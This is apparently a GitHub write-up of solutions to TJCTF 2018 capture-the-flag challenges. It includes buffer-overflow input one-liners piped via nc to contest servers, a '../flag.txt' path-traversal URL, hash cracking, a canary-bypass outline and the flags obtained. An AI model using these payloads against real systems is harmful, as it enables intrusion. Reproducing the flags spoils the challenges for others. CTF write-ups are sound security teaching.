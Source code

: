 # TJCTF_2018

Writeups for tjctf 2018

## Binary Exploitation

### Math Whiz

*The neighborhood math whiz won't stop bragging about the [registration form](The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!) [(source)](https://static.tjctf.org/b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c) he coded. Show him who's boss!*

`nc problem1.tjctf.org 8001`

There's a pretty blatent buffer overflow vulnerability that exists because the fgets command is being passed the wrong parameter. Just injecting enough lines of A's via python gets the job done.

```
python -c "print ('A'*100+'\n')*10" | nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: Username: Password: Recovery Pin: Email: Address: Biography: Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```

### Tilted Troop

*Can you help us defeat the monster? [binary](https://static.tjctf.org/ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) [(source)](https://static.tjctf.org/48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c)*

`nc problem1.tjctf.org 8002`

This is another buffer overflow problem. Indexed incorrectly you can input 9 characters. The ascii values of the last character's name sum together to make up the strength of all the characters because of this. Just inject an ascii string with the proper sum for the 9th character.

```
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab# (python -c "print 'A\n'*8+'A aaam\n'+'F\n'"; cat) | nc problem1.tjctf.org 8002
Commands:
 A <name> - Add a team member
 F - Fight the monster
 Q - Quit
Wow! Your team is strong! Here, take this flag:
tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}
Try again
^C
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab#
```

### Future Canary Lab
*The world renowned Future Canary Lab is looking for a new lab member. Good luck with your [interview](https://static.tjctf.org/c962e5ec36fc4161a93c042e1837cf0fe0a35a92469f37181f827d9ee8a54cca_interview) [(source)](https://static.tjctf.org/2e1b38dc00bfb021e2deb45219f4c44b371dc1ae98b0fb2ee2d9905032e310a3_interview.c!)*

`nc problem1.tjctf.org 8000`

This one is a stack exploit via buffer overflow that requires leaving a stack canary intact. They use C's default random library with a seed of the time in seconds. Just write a C script to generate the values locally and then inject the overflow, canary, and payload to get the calculation to evaluate to 0xdeadbeef in the code via a simple python script using os.popen and pwntools' socks client.

### Secure Secrets

*I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?*

`nc problem1.tjctf.org 8008`

[Video Writeup](https://youtu.be/NbDZW0HQmf4)

## Web

### Blank
*Someone told me there was a flag on this [site](https://blank.tjctf.org/), so why is it that I can only see blank?*

The flag is a comment in the webpage source html code. Ctrl-U in firefox.

### Cookie Monster
*The [Cookie Monster](https://cookie_monster.tjctf.org/) is not a fan of horses*

The flag is a webpage cookie. Just go into the debug console (F-12) and find it there with the rest of the webpage cookies.

### Central Savings Account
*I seem to have forgotten the password for my savings account. What am I gonna do?*

The flag's md5 has is stored client side in the webpage js. Just throw it into hashkiller. The flag is "avalon".

### Moar Horses
*The [Horse](https://moar_horse.tjctf.org/) is back!*

This problem must seriously have been a joke. Just keep scrolling via javascript. Eventually you'll find a response containing the flag in the console.

```javascript
$(window).scroll(function () { console.log( $('.jscroll-next-parent').html() ); })
```

```
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a>
```

### Programmable Hyperlinked Pasta

*Check out my new site! PHP is so cool!*

[programmable_hyperlinked_pasta.tjctf.org](programmable_hyperlinked_pasta.tjctf.org)

`view-source:https://programmable_hyperlinked_pasta.tjctf.org/?lang=../flag.txt`

## Misc.

### Trippy
*[trippy](https://static.tjctf.org/be37fef78cfd6c7deda71154f567e6d0cfefbda1f80698c064bab469d3a54c58_trippy.gif)*

Run strings on the file and grep for "tjctf"

```
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy# strings trippy.gif | grep tjctf
tjctf{w0w}
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy#
```

### Mirror Mirror

*If you look closely, you can see a reflection.*

`nc problem1.tjctf.org 8004`

The problem leaves us with a restricted python terminal and a hint regarding reflection, a way to get possible attributes of object and/or functions at runtime in many languages.

[Video Writeup](todo)

## Forensics

### Weird Logo

*This company's logo stands in contrast of those of other leading edge tech companies with its poor design*

![Source](https://static.tjctf.org/c9a03d15f235087145579bd06f3f736a5546539254fbde100b8bf4d990bb8d8f_logo.png)

Solution: There are 2 colors of blue used in the image that are very close to one another. Use a bucket tool in paint with 100% selectivity to get the flag.

!(https://github.com/MeadeRobert/TJCTF_2018/blob/master/weird_logo/weird_logo_edited.png)

### Weird Audio Circuit

*In my electronics class, we made this cool circuit for encoding audio. Check it out!*

[Audio](https://static.tjctf.org/c34e48ab19254a7fe95fff369d8dca5272f2a46f92e6c4ffef50d9b4de5e9cbc_problem.wav)

[Videoo Writeup](https://youtu.be/ZLO1LipkSFc)

The file contains an AM modulated audio signal with a carrier at 10Khz. Demodulate with the following nyquist script in audacity, and transcribe the flag starting at ~36 seconds in.

[https://forum.audacityteam.org/viewtopic.php?t=95331](https://forum.audacityteam.org/viewtopic.php?t=95331)
`(lowpass8 (mult *track* (hzosc 10000)) 10000)`

### Ssleepy

*I found this super suspicious [transmission](https://static.tjctf.org/99870da89e552d13905dbff3fe0543ca336c4c425cb723e3f4b6c0e91a6e23e7_ssleepy.pcapng) lying around on the floor. What could be in it?*

Extract .7z file containing .pem file for RSA private key (for SSL traffic decryption) from FTP traffic in wireshark. Then, extract the flag.jpg file from the SSL traffic responding to the GET request for the flag image.

[Video Writeup](https://youtu.be/1uiYoRnXt0M)

## Cryptography

### Classic

*My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](https://static.tjctf.org/6bd24f59c2861c8f62358d17d677812bc079876f6951c22d13f396bbf1059cca_rsa.txt)*

The modulus is easily factored by [Fermat's Algorithm](https://en.wikipedia.org/wiki/Fermat%27s_factorization_method). Use the factorization to generate the private key and decrypt the ciphertext.

### Affine

Didn't solve this one during the competition, but I'm still pretty convinced its a linearly padded hastad broadcast attack where the padding is the sha1 hash of the modulus as a string.




